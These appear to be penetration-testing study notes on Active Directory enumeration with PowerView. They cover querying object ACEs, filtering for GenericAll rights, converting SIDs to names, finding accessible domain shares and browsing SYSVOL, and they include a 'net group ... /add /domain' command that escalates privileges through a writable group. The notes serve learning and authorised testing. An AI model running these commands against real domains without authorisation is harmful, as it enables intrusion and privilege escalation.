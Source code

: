 To enumerate ACEs of a user with `PowerView.ps1` we can use:
```
Get-ObjectAcl -Identity stephanie
```

This will print our every single ACE applied to the Stephanie user. This is how we do it for every object (group, user, etc)

The properties we are mainly interested from this output include:
- ObjectSID
- ActiveDirectoryRights
- SecurityIdentifier

To decipher SIDs we gather from this output we can use powerview:
```
Convert-SidToName <SID>
```

To further enumerate all objects in we could do something like:
```
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights
```

This command would print all the ACEs that have the `GenericAll` privilege which is the highest.

We could then convert all the SIDs to names we find like so:
```
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
```

If we found we had permissions to a powerful group and we can our selves, we could use this:
```
net group "Management Department" stephanie /add /domain
```


#### Enumerating Domain Shares

Domain shared often contain critical information about the environment.

We can list all domain shares using powerview:
```
Find-DomainShare
```

This will show us shares available to us:
```
Find-DomainShare -CheckShareAccess
```

`We should search each share we come across in search for valuable information.`

`SYSVOL` is a particularly valuable share to check as it may include folders and files that reside on the domain controller itself. It is typically used for various domain policies and scripts. 
By default, the **SYSVOL** folder is mapped to `**%SystemRoot%\SYSVOL\Sysvol\domain-name**` on the domain controller and every domain user has access to it.

```
ls \\dc1.corp.com\sysvol\corp.com\
```
